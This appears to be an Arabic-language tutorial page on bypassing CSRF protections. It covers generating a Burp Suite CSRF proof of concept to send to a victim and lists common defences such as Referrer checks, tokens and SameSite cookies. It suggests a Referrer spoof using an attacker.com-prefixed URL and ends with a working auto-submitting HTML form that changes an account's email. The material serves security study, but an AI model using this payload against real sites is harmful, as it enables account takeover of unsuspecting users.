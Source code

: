 # *التحايل المتقدم على CSRF*

🔹 لما تحاول *تحديث حاجة في الموقع،* ممكن تستغل ده لعمل *هجوم CSRF* باستخدام Burp Suite:
1. افتح *Burp Suite* ➝ *Engagement Tools* ➝ *Create CSRF PoC*.
2. خد اللينك الناتج وابعته للضحية.

🔹 *لما الضحية يضغط على اللينك، التحديث اللي انت عملته بيتنفذ عليه بشكل تلقائي.*

🔹 *لكن المشكلة:* لو لقينا إن الموقع عنده *حماية عبر CSRF Token* بتحاول تمنع الهجوم.

🔹 *الحل:* لازم نلاقي *طريقة للتحايل على CSRF Token بأي وسيلة!* 

---


## *🔹 الحواجز اللي ممكن تمنعك من اختبار ثغرات CSRF:*

1️⃣ *الـ Referrer* ➝ بعض المواقع بتتحقق من مصدر الطلب لمنع الهجمات الخارجية.

2️⃣ *CSRF Token* ➝ مواقع بتستخدم توكنات ديناميكية لكل طلب عشان تتحقق منه.

3️⃣ *SameSite Cookies* ➝ الكوكيز اللي بيتم تقييدها بحيث متتبعثش مع الطلبات الخارجية.

4️⃣ *JSON Format* ➝ بعض التطبيقات بتطلب بيانات بصيغة JSON، وده بيصعب تنفيذ CSRF بالطريقة التقليدية.

---
## *🔹 التحايل على Referrer في CSRF Bypass*

✅ **لو الموقع بيتحقق من Referrer كويس، فيه طريقتين ممكن تستخدمهم:**
1. **إزالة Referrer Header من الطلب.**
2. **تعديل Referrer ليكون بالشكل:**
   ```
   https://attacker.com/https://victim.com
   ```

🔹 *لكن السؤال هنا:* إزاي ممكن تحط Referrer المطلوب جوا HTML PoC؟ 🤔
---
```
<html>
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form name="hacker" method="POST" action="https://account.example.com/change_email">
    <input type="hidden" name="email" value="hossamshady24@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
</body>
</html>
```

---
